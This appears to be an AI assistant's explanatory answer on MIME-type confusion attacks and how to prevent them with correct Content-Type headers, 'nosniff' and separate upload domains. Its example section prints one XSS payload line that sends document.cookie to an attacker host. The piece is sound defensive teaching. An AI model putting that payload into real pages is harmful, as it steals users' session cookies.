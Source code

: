 Great question. Let’s explore what **MIME-type confusion attacks** are, why they’re dangerous, and how to prevent them — especially in the context of web security and HTTP headers.

---

## 🎭 What Is a MIME-Type?

**MIME type** (Multipurpose Internet Mail Extensions) tells the browser **what kind of file or content** is being served, so it knows how to handle it.

### 📄 Examples:

| File Type     | MIME Type                |
| ------------- | ------------------------ |
| HTML document | `text/html`              |
| JavaScript    | `application/javascript` |
| PNG image     | `image/png`              |
| PDF file      | `application/pdf`        |

---

## 💥 What Is a MIME-Type Confusion Attack?

A **MIME-type confusion** (or **content-sniffing**) attack happens when:

* A web server **serves a file with an incorrect or misleading MIME type**
* A browser **ignores the declared `Content-Type`** and **guesses ("sniffs")** the file type instead
* An attacker exploits this to **execute malicious content**, like **JavaScript** disguised as a different file

---

## 🔥 Real-World Example

Let’s say your server allows users to upload `.txt` files. But a malicious user uploads a file named `malicious.txt` that contains JavaScript code:

```javascript
<script>fetch('https://attacker.com/steal?c=' + document.cookie)</script>
```

If your server serves it with:

```http
Content-Type: text/plain
```

But the browser **sniffs it as HTML or JavaScript** and executes the script — boom! You’ve got **XSS via MIME confusion**.

---

## 🛡️ How to Prevent This Attack

### ✅ 1. Use the correct `Content-Type` header

Always explicitly declare the correct MIME type when serving files:

```http
Content-Type: text/plain
```

Don’t let the browser guess.

---

### ✅ 2. Set this security header:

```http
X-Content-Type-Options: nosniff
```

This tells the browser:

> “Don’t try to guess what this file is. Just trust the `Content-Type`.”

Without this, browsers like Chrome and IE may “sniff” `.txt`, `.json`, or `.html` content and execute it incorrectly.

---

### ✅ 3. Avoid serving user-uploaded files from the same domain

If users can upload files (e.g., avatars, attachments), consider serving them:

* From **a different subdomain** (e.g., `files.example.com`)
* Or from a **separate storage/CDN** (e.g., S3 bucket with proper permissions)

This prevents malicious content from being executed in the same **security context** as your main site.

---

## 🧠 Summary

| Concept                   | Description                                                       |
| ------------------------- | ----------------------------------------------------------------- |
| **MIME-Type**             | Tells browser how to handle content                               |
| **MIME Confusion Attack** | Exploits incorrect or missing MIME types to trick the browser     |
| **Defense**               | Use correct `Content-Type`, set `X-Content-Type-Options: nosniff` |
| **Impact**                | Can lead to XSS, file execution, or content spoofing              |

---

Let me know if you’d like a working demo or Python/Flask example of safe file serving practices!
